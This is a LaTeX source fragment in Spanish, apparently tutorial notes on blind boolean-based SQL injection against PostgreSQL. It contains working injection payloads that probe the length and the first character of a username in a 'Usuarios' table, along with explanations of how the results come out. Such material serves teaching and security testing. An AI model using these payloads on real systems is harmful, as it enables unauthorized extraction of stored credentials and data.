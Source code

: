 \documentclass[a4paper,12pt]{article}
\begin{document}
\paragraph{Inyección que devuelve FALSE}
La siguiente inyección verifica si la longitud del nombre de usuario en el primer registro es igual a \texttt{33}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (LENGTH(username) = 33) THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}

Dado que el nombre de usuario en el primer registro no tiene \texttt{33} caracteres, la condición se evalúa como \texttt{FALSE}, devolviendo \texttt{999}. Esto hace que la consulta no genere cambios visibles en la aplicación.

\subsubsection{Obtención de un carácter específico de un campo}

En PostgreSQL, las principales diferencias para esta inyección son:
\begin{itemize}
    \item La función \texttt{SUBSTRING} se utiliza en lugar de \texttt{SUBSTR} para extraer un carácter específico de una cadena.
    \item La función \texttt{SUBSTRING} requiere las palabras clave \texttt{FROM} y \texttt{FOR} para indicar la posición inicial y la longitud del segmento a extraer.
\end{itemize}

\paragraph{Inyección que devuelve TRUE}
La siguiente inyección verifica si el primer carácter del nombre de usuario en el primer registro es \texttt{'a'}:

\begin{lstlisting}[language=SQL]
d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTRING(username FROM 1 FOR 1) = 'a') THEN 1 ELSE 999 END FROM (SELECT username, ROW_NUMBER() OVER() AS rn FROM Usuarios) AS subquery WHERE rn=1) = 1 --
\end{lstlisting}
\end{document}
